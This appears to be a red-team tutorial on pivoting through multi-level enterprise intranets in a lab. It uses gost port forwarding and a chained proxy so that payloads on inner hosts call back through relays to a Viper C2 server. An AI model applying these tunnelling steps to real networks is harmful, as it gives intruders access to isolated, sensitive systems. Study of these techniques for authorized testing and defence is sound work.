 # Multi-level Intranet Penetration (gost & viper)

## What is a multi-level intranet?
The multi-level intranet mentioned in the title is common in various large enterprises. For example, as shown in the following figure:

![](img\multi_level_intranet_penetration_gost_viper\1.webp)

In network A, it is generally the DMZ area of the enterprise, which contains external web servers, DNS servers, etc.

In network B, it is generally the server area of the enterprise intranet, including domain control servers, internal network OA, etc.

In network C, it is generally the red area of the enterprise, which contains databases storing sensitive information or various key business servers. (For example, the HIS of a hospital, the industrial controller of an industrial enterprise, etc.)

In this kind of network, network A can connect to the Internet, network B can connect to network A and network C but cannot connect to the Internet, and network C can only connect to network B.

## Penetrating multi-level intranets by combining Viper and gost
The network configuration of the experimental environment is as follows:

![](img\multi_level_intranet_penetration_gost_viper\2.webp)

+ Connect to 192.168.146.1

![](img\multi_level_intranet_penetration_gost_viper\3.webp)

+ Use gost on 192.168.146.1 to start a port forwarding and forward the traffic of 192.168.146.1:2000 to 192.168.146.130:2000

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000
```

![](img\multi_level_intranet_penetration_gost_viper\4.webp)

+ On 146.11, execute the payload to connect back to 146.1:2000, and 146.11 is online (it can be seen that it is connected back through 146.1)

![](img\multi_level_intranet_penetration_gost_viper\5.webp)

+ Connect to 146.12 is more complicated. First, use gost on 146.1:8080 to start a proxy:

```plain
gost.exe -L :8080
```

![](img\multi_level_intranet_penetration_gost_viper\6.webp)

+ Then start port forwarding on 146.11. The traffic passes through the proxy of 146.1:8080:

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000 -F 192.168.146.1:8080
```

![](img\multi_level_intranet_penetration_gost_viper\7.webp)

+ On 146.12, execute the payload to connect back to 146.11:2000, and 146.12 is online (it can be seen that 146.12 is connected back through 146.1)

![](img\multi_level_intranet_penetration_gost_viper\8.webp)

+ After the payload of 146.12 connects to the 2000 port of 146.11, the gost of 146.11 will add the proxy header to the traffic and then send it to the proxy of 146.1:8080. The proxy of 146.1:8080 parses the proxy header and finally sends the traffic to 146.130:2000.